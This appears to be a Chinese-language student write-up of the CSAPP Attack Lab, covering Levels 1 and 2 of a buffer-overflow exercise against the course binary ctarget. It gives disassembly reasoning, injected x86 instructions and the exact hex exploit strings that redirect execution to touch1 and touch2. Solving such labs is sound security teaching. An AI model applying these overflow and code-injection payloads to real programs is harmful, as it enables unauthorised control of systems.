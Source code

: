# Attack Lab

同之前实验一样，首先要干的事情还是阅读`README`和`writeup`文件。

阅读`README`文件可知：

> Students are given binaries called ctarget and rtarget that have a buffer overflow bug.  They are asked to alter the behavior of their targets via five increasingly difficult exploits. The three attacks on ctarget use code injection. The two attacks on rtarget use return-oriented programming.


> Each exploit involves reading a sequence of bytes from standard input into a buffer stored on the stack. Students encode each exploit string as a sequence of hex digit pairs separated by whitespace, where each hex digit pair represents a byte in the exploit string. The program
"hex2raw" converts these strings into a sequence of raw bytes, which can then be fed to the target:

> unix> cat exploit.txt | ./hex2raw | ./ctarget

简单来说，就是需要自己创建一个`exploit.txt`文件，通过实验提供的`hex2raw`程序将其翻译成字节流后送给`ctarget`程序作为参数执行。

![overview](./pic/overview-attacklab.png)

而`exploit.txt`文件需要实现《CSAPP》原书中提到的代码注入和面向返回的编程(return-oriented programming)。

且`README`文件最后提到:

> Students will need to run ctarget and rtarget using the -q option, which tells the targets not to try to contact the (non-existent) grading server.

经过尝试:

![-q option](./pic/-q.png)

需要加上`-q`选项来阻止程序连接CMU的服务器以正常运行，下面正式进入该实验。

## Part 1


### Level 1

`ctarget`程序运行中会调用函数`<test>`:

```c
void test(){
	int val;
	val = getbuf();
	printf("No exploit. Getbuf returned 0x%x\n", val);
}
```
而在`<test>`中会调用函数`<getbuf>`:

```c
unsigned getbuf() {
	char buf[BUFFER_SIZE];
	Gets(buf);
	return 1;
}
```

Level 1的任务比较简单，即要求在函数`<getbuf>`执行返回语句时，将程序的执行流重定向到函数`<touch1>`:

```c
void touch1() {
	vlevel = 1; /* Part of validation protocol */
	printf("Touch1!: You called touch1()\n");
	validate(1);
	exit(0);
}
```

依据`Bomb Lab`的经验，首先对程序进行反汇编查看一下汇编代码:
```bash
objdump -d ctarget > outdump.s
```
找到`<test>`所在位置:

![al-test](./pic/al-test.png)

该函数首先将栈指针减8，随后调用了`<getbuf>`函数。(注意：调用函数之前会将返回地址压栈)

![al-getbuf](./pic/al-getbuf.png)

`<getbuf>`首先将栈指针减0x28也就是40字节后，
```x86-asm
mov %rsp, %rdi
```
这条指令含义是将`%rdi`赋值为`%rsp`，所以我们可以知道，下面调用的函数传递参数是使用栈来传递的，所以当参数长度超过了分配栈空间长度时，就会导致栈溢出。

随后调用了`<Gets>`函数。

此时画出栈的情况示意图:


从`<getbuf>`最后两行可以得知，当从`<getbuf>`返回退栈时，40字节的内容会被清空，并弹出栈顶数据到`%rip`寄存器中，此时程序转移控制流。

所以此时只需要将返回的数据设置为函数`<touch1>`的起始地址即可，查看`<touch1>`的起始地址:

![touch1](./pic/al-touch1.png)

所以需要填写的字节编码可以为(前40字节任意):

```bash
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
c0 17 40 00 00 00 00 00
```

输入运行:

![p1-L1](./pic/p1-l1.png)

### Level 2

Level 2的要求同 Level 1一样，要将返回`<test>`时的控制流转换到调用`<touch2>`函数的执行上，同时要求执行时传入一个参数为`cookie`(在实验文件夹的`cookie.txt`文件中)。

并且调用`<touch2>`不能使用`jmp、 call`指令，只能使用`ret`指令。

```c
void touch2(unsigned val){
	vlevel = 2; /* Part of validation protocol */ 
	if (val == cookie) {
	printf("Touch2!: You called touch2(0x%.8x)\n", val);
		validate(2); 
	}
	else{
    printf("Misfire: You called touch2(0x%.8x)\n", val);
		fail(2); 
	}
	exit(0);
}
```

回顾《CSAPP》原书中提到的`ret`指令，其等价为:
```x86-asm
pop %rip
```
即将栈顶数据弹栈到`%rip`寄存器中，同时栈顶指针上移(假设栈由高地址向低地址生长，低地址在底端)。

画出栈的存储情况示意图：

我们可以试想，同Level 1一样，在`<test>`的栈帧的返回地址处存放`<touch2>`的地址，从而在`<getbuf>`退栈时能调用`<touch2>`，但是有一个问题，我们需要预先传递我们的`cookie`参数到`%rdi`寄存器中，如果采用这种方式，参数就会无法传递。

经过观察可以发现，`<getbuf>`函数开辟的40字节的栈帧，这部分空间在退栈时直接被清空，不会再进行使用，所以，我们可以考虑在这个部分放置我们的传递参数的代码，假设这部分标记为`<ta>`，那么我们可以进行如下考虑：

首先`<getbuf>`退栈时转移控制流到`<ta>`部分，在此部分进行参数传递的工作，然后将`<touch2>`函数的入口地址压榨再弹栈(使用`ret`指令)，这样程序的控制流就正常转移到了`<touch2>`上并且也完成了参数传递。

![l2-getbuf](./pic/al-l2-buf.png)

此时查看栈顶指针`%rsp = 0x5561dc78`，所以栈帧情况如下图所示:





所以，我们可以在蓝色括号所示的栈帧区域内填入我们的处理代码，在`<test>`返回地址处填入我们的处理代码的地址，处理代码如下所示:

```x86asm
# 传递cookie到rdi寄存器
mov $0x59b997fa, %rdi
# 栈顶压入touch2起始地址，再退栈
# 此时touch2执行地址被送入rip寄存器
pushq $0x4017ec
retq
```

将我们的指令序列转换为字节编码:


> unix> gcc -c example.s
> unix> objdump -d example.o > example.d


获得的字节表示为:

![l2-process](./pic/l2-process.png)

根据小端地址的顺序，所以我们最终填入字节编码为:

```bash
48 c7 c7 fa 97 b9 59 68
ec 17 40 00 c3 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
78 dc 61 55 00 00 00 00
```

测试：

![l2-pass](./pic/l2-pass.png)







